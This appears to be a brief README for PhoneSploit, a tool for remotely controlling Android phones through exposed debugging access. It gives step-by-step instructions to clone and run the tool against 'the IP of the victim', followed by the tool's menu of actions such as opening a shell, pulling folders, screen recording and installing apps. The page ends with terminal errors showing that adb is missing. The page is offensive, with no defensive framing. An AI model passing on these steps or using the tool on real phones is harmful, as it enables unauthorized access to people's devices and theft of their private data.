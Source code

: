 # PhoneSploit
You can hack phones with IP only using the PhoneSploit tools, and its commands work on the terminal, which are:
1. git clone https://github.com/aerosol-can/PhoneSploit
2. cd PhoneSploit
3. ls
4. python phonesploit.py
5. And write the IP of the victim 
6. and choose from the list
the list:
 [1] Show Connected Devices      [6] Screen record a phone               [11] Uninstall an app                   
[2] Disconect all devices       [7] Screen Shot a picture on a phone    [12] Show real time log of device       
[3] Connect a new phone         [8] Restart Server                      [13] Dump System Info                   
[4] Access Shell on a phone     [9] Pull folders from phone to pc       [14] List all apps on a phone           
[5] Install an apk on a phone   [10] Turn The Device off                [15] Run an app                         


[99] Exit   [0] Clear   [p] Next Page                           

sh: 1: adb: not found
sh: 1: adb: not found

# [+] Enter a phones ip address.(Type 99 to exit)
 -> phonesploit(connect_phone) > 
